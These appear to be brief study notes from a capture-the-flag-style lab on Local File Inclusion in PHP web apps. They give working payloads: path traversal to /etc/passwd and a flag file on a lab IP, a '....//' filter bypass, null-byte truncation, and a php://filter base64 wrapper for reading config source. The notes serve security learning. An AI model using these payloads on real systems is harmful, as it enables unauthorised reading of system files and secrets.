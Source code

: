 ## <span style=color:red>LFI</span>
![](https://hackmd.io/_uploads/r1jGIWkA3.png)

```It may be pulling the content from a different database table based on the specified parameter, or it may be loading an entirely different version of the web app.``` 

```If absolute file path is '/var/www/html/languages/', using '/../../../../etc/passwd' to reach the root path '/' and see the file'/etc/passwd'.```

#### Payload
```url!
http://94.237.59.206:54282/index.php?language=/../../../../usr/share/flags/flag.txt
```

### <span style=color:red>LFI Bypass</span>
```url!
....//....//....//....//
```

#### Path Truncation (Extension)
```url!
%00
```

### <span style=color:red>PHP Stream Wrapper</span>
#### Payolad
```specifying convert.base64-encode for the read parameter and config for the resource parameter```
```url!
php://filter/read=convert.base64-encode/resource=config
```

#### Decode
```bash!
H4ck3rxPK@htb[/htb]$ echo 'PD9waHAK...SNIP...KICB9Ciov' | base64 -d
```


